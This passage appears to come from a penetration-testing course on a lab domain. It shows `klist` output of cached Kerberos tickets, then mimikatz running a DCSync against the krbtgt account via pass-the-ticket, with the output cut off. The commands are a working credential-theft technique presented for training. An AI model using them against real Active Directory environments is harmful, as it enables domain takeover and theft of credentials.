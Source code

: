 With `klist`, we confirm ticket in memory:

```powershell-session
PS C:\Tools> klist

Current LogonId is 0:0x4e56b

Cached Tickets: (3)

#0>     Client: ACADEMY-EA-DC01$ @ INLANEFREIGHT.LOCAL
        Server: krbtgt/INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 3/30/2022 15:53:09 (local)
        End Time:   3/31/2022 1:50:25 (local)
        Renew Time: 4/6/2022 15:50:25 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x2 -> DELEGATION
        Kdc Called: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL

#1>     Client: ACADEMY-EA-DC01$ @ INLANEFREIGHT.LOCAL
        Server: krbtgt/INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 3/30/2022 15:50:25 (local)
        End Time:   3/31/2022 1:50:25 (local)
        Renew Time: 4/6/2022 15:50:25 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

#2>     Client: ACADEMY-EA-DC01$ @ INLANEFREIGHT.LOCAL
        Server: cifs/academy-ea-dc01 @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 3/30/2022 15:53:09 (local)
        End Time:   3/31/2022 1:50:25 (local)
        Renew Time: 4/6/2022 15:50:25 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

Now that we have the appropriate ticket in memory, we can use PtT to perform DCSync:

```powershell-session
PS C:\Tools> cd .\mimikatz\x64\
PS C:\Tools\mimikatz\x64> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /user:inlanefreight\krbtgt
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'inlanefreight\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt
```